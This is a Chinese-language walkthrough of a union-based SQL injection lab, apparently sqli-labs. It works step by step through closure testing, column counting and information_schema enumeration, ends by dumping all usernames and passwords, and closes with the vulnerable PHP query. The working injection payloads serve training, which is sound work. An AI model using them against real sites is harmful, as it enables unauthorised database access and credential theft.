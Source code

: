 # 确认闭合类型
输入: ?id=1'--+  
成功回显，说明是单引号闭合


看报错：near ''1'' LIMIT 0,1' at line 1  
       '1'' LIMIT 0,1  
说明我们输入后再服务器构造成了 ='1'' LIMIT 0,1  
这时候我们在输入时添加注释符可以不让后面的字符生效  
='1'--+' LIMIT 0,1  等价于只有  ='1'  

# 确认回显位置
首先我们需要知道服务器执行数据库查询语句时查询了几个数据  
这时候我们可以order by [number]来进行测试，一般可以采用二分法  

当我们输入?id=1' order by 4--+时，服务器报错了  
当我们输入?id=1' order by 3--+时，服务器仍然正常  
所以我们可以确定查询语句中select后面只有三个值  

之后我们输入一个错误数据，让数据库无法查询到正确数据  
并使用联合查询，直接让数据库回复1,2,3，查看回显位置  
?id=-1' union select 1,2,3 --+  
可以看到  
Your Login name:2  
Your Password:3  

所以我们可以利用联合注入select的2和3的位置

# 查询数据库名
我们先试着查询数据库名字，利用的是2这个位置  
?id=-1' union select 1,database(),3 --+  
这样会在Your Login name处显示数据库名称  
回显：Your Login name:security

到这里我们获得了服务器数据库名称security  
之后我们可以直接使用security代替数据库名称，当然也可以继续使用database()

# 查询表名
得到了数据库后（当然可以跳过这一步）  
我们可以进步利用sql注入漏洞了  
接下来我们获取数据库中所有表的名称  
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+  
回显：Your Login name:emails,referers,uagents,users

我们获得了四个表的名称，我们可以一一对所有表进行查询  
当然一般会根据表的名称来进行，这里利用的是users

# 查询列名
我们获得了表后，接下来该获取表中所有的列  
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database()--+  
我们利用information_schema.columns中包含table_name可以对我们需要的表进行过滤  
回显Your Login name:id,username,password  
这样我们就获得了users表中所有列名

# 查询值
根据直觉来说，我们需要用户名和密码，所以我们可以通过查询其中的username和password来获得所有用户名和密码

我们现在可以利用2和3的位置来分别查询username和password  
而且我们获取表名后，就可以直接查表了  
?id=-1' union select 1,group_concat(username),group_concat(password) from users--+

回显：  
Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4  
Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4

到此就结束了


# 源码
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
就是最简单的sql查询语句，对输入没有任何过滤，单引号闭合后，在后面加上注释符，就构造成了我们想要的查询语句
